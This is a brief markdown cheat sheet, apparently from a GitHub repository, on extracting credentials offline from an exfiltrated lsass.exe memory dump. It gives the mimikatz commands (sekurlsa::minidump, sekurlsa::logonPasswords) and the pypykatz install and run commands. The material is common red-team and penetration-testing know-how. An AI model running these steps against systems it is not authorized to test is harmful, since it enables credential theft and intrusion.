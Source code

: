 # Using Mimikatz Offline
This is a general guide for Using Mimikatz offline, after dumping lsass.exe from a machine and exfiltrating it.

## Step 1: Obtain and exfil lsass.exe
First, dump lsass.exe, then exfiltrate it to our machine.

## Step 2: Consider which mimikatz to use
Vanilla mimikatz EXE in Windows?  
Or Pypykatz in Kali?

## Vanilla Mimikatz in Windows
Download mimikatz from https://github.com/gentilkiwi/mimikatz/releases or https://gitlab.com/kalilinux/packages/mimikatz  
Then launch cmd prompt and run the commands below:  
`mimikatz.exe`  
`sekurlsa::minidump C:\folderlocation\lsass.dmp`  
`sekurlsa::logonPasswords`

## Pypykatz in Kali
Run the commands below in kali terminal to download, install and run
`git clone https://github.com/skelsec/pypykatz`  
`cd pypykatz`  
`sudo python3 setup.py install`  
`pypykatz lsa minidump /home/kali/folderlocation/lsass.dmp`  

## References
https://github.com/skelsec/pypykatz/wiki/lsa-minidump-command
